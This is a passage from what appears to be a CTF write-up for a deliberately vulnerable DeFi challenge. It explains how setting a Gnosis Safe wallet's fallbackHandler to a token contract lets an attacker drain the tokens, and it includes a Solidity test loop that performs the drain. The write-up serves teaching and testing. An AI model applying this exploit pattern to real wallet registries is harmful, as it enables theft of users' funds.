 Each time a function not present in the wallet smart contract is executed, this fallback method will be executed and will perform a low-level call (written in Yul this time) to the `handler` address (the value is the one we have provided during the `setup` process via the `fallbackHandler` input) and as the `calldata` value of the call will forward the whole `calldata` passed to the sender.

We are into something! This allows us to execute **any** function available on the `handler` contract, specifying an arbitrary payload data.

What would happen if we setup the wallet by passing the **address of the DVT token** as the `fallbackHandler`? This would allow us to make the **wallet itself** execute a low-level call directly on the token itself!

## Prepare the attack

Now that we have found the solution, it's pretty easy to write the test. The test will iterate over all the beneficiaries, create a wallet with the proper configuration and after the creation transfer all the tokens to the attacker address!

```solidity
for( uint i = 0; i < beneficiaries.length; i++ ) {
    // setup wallet beneficiary
    address[] memory walletOwners = new address[](1);
    walletOwners[0] = beneficiaries[i];

    // setup the initializer of the wallet by setting the token as the wallet's `fallbackHandler`
    // this will allow us to execute calls to the token contract from the wallet without being the owner
    bytes memory initializer = abi.encodeWithSignature(
        "setup(address[],uint256,address,bytes,address,address,uint256,address)",
        walletOwners,   // _owners
        1,              // _threshold
        address(0),     // to
        "",             // data
        address(token), // fallbackHandler
        address(0),     // paymentToken
        0,              // payment
        address(0)      // paymentReceiver
    );

    // generate the wallet and call the registry callback
    GnosisSafeProxy proxy = walletFactory.createProxyWithCallback(address(masterCopy), initializer, 1, walletRegistry);


    // use the fallback we setup earlier to directly transfer DVT tokens from the wallet to the attacker!
    vm.prank(attacker);
    (bool approveSuccess, ) = address(proxy).call(
        abi.encodeWithSignature("transfer(address,uint256)", attacker, AMOUNT_TOKENS_DISTRIBUTED_PER_WALLET)
    );
    assertEq(approveSuccess, true);
}
```
